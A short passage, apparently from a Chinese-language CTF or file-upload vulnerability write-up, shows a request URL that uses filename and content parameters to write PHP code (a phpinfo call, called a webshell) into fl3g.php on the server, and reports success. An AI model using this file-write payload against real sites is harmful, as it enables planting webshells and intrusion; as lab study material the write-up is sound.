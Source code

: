 ![img](文件上传.assets/1681146123182-88e331d9-c914-4b52-b6e7-10b985ef099c.png)

然后访问以下 url 将 Webshell 写入fl3g.php：

```php
/index.php?filename=fl3g.php&content=<?php phpinfo();?>
```

执行后可以发现，成功将Webshell写入了fl3g.php：

![img](文件上传.assets/1681146123155-2c0d1965-7d99-43ea-b49b-cb34c35b13b0.png)
